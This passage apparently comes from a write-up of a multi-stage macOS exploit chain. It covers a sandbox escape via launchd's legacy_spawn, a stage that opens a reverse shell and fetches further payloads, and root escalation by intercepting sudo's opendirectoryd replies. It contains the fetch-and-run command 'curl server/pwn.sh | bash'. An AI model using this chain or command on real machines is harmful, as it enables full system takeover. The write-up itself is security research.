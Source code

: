 A short assembly payload which essentially does the following:

1. Call `confstr(\_CS\_DARWIN\_USER\_TEMP\_DIR)` to obtain a path to a writable directory
2. Create a new file named 'x.dylib' in the writable directory
3. Write the stage2 dylib into the newly created file
4. Load the dylib into the WebContent process through `dlopen()`

## Stage 2

Goal: break out of the sandbox<br/>
Bug exploited: missing sandbox checks in launchd's "legacy\_spawn" API<br/>
See also [this talk](https://saelo.github.io/presentations/bits_of_launchd.pdf)

Launchd exposes the "legacy\_spawn" RPC endpoint as routine 817 in subsystem 3.
This API fails to validate whether the caller should be allowed to spawn
processes and will just `execve` any binary on the system for the caller with
controlled arguments. Since launchd is reachable through the bootstrap port,
this makes it possible to escape from the sandbox.

The exploit essentially runs `curl server/pwn.sh | bash` and thus passes
control to stage3.

## Stage 3

Goal: pop calc and bootstrap the remaining stages

This executes `open /Applications/Calculator.app` and establishes a reverse
shell, then fetches all files required for the remaining stages and runs the
exploits.

## Stage 4

Goal: gain root via a LPE exploit<br/>
Bug exploited: XNU bootstrap port MitM<br/>
See also [this POC talk](https://saelo.github.io/presentations/poc_18_macos_ipc_mitm.pdf)

In XNU, the `task_set_special_port` API allows callers to overwrite their
bootstrap port, which is used to communicate with launchd. This port is
inherited across forks: child processes will use the same bootstrap port as the
parent. A security issue now arises if the child process is more privileged
than the parent, as is the case for example with `sudo` (a setuid binary) or
`kextutil` (having the "com.apple.rootless.kext-management" entitlement"). By
overwriting the bootstrap port and forking a child processes, we can now gain a
MitM position between our child and launchd (which our child expects to reach
when sending messages to the bootstrap port). The child process will ask
launchd to resolve various mach and XPC services. By resolving these services
to other ports controlled by us, we can also gain a MitM position with
arbitrary system services used by our child process. Exploitation then depends
on how those services are used by the attacked program.

To gain root we target the `sudo` binary and intercept its communication with
`opendirectoryd`, which is used by `sudo` to verify credentials. We modify the
replies from `opendirectoryd` to make it look like our password was valid.
